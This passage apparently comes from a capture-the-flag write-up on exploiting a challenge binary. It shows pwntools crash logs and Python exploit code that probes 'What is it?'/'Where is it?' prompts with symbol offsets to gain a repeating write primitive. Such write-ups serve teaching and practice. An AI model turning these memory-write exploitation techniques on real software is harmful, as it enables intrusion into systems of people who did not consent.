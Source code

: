 ``` 
[+] Starting local process './main': pid 12404
[*] Process './main' stopped with exit code 1 (pid 12404)
[+] Starting local process './main': pid 12406
[*] Process './main' stopped with exit code -4 (SIGILL) (pid 12406)
[+] Starting local process './main': pid 12417
b'\n \xe2\x96\x88     \xe2\x96\x88\xe2\x96\x91 \xe2\x96\x88\xe2\x96\x88\xe2\x96\x80\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88   \xe2\x96\x88\xe2\x96\x88\xe2\x96\x93\xe2\x96\x84\xe2\x96\x84\xe2\x96\x84\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x93\xe2\x96\x93\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88     \xe2\x96\x92\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88    \xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x92    \xe2\x96\x88\xe2\x96\x88\xe2\x96\x93\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88   \xe2\x96\x84\xe2\x96\x84\xe2\x96\x84        \xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88   \xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88  \xe2\x96\x84\xe2\x96\x84\xe2\x96\x84        \xe2\x96\x84\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88 \xe2\x96\x93\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88\xe2\x96\x88 \n'
[...]
```

So it would make sense to run this loop until seeing the questions `"what is it"` and `"where is it"`. This is obtained using the following code:
```python
banner_bytes = exe.symbols['__compound_literal.0']
banner_ref = exe.symbols['banner']

libc_rand_calls = 0

some_banner = b"\xe2\x96\x88\x20\x20\x20\x20\x20\xe2\x96\x88\xe2\x96\x91"

def what_where(type, offset):
  global r
  global libc_rand_calls
  libc_rand_calls += 1
  r.sendlineafter(b"What is it?\n", f"{type}".encode(), timeout=2)
  r.sendlineafter(b"Where is it?\n", f"{offset}".encode(), timeout=2)

def loopyloop():
  global r
  global libc_rand_calls
  for _ in tqdm(range(1000)):
    r = conn()
    time = libc_time(0)
    what_where(AT_ENTRY, exe.symbols['tests'] - exe.symbols['_start'])
    try:
      # If it works again and we see the banner, we have a loop!
      what_where(AT_ENTRY, banner_bytes - exe.symbols['_start'])
      r.recvuntil(some_banner, timeout=2)
      
      return r, time
    except Exception as _:
      r.close()
      libc_rand_calls = 0

```
Notice that in the `try-catch` we write to the banner and not `tests[0]`, as we are checking if we have a loop and need to write the data somewhere else.

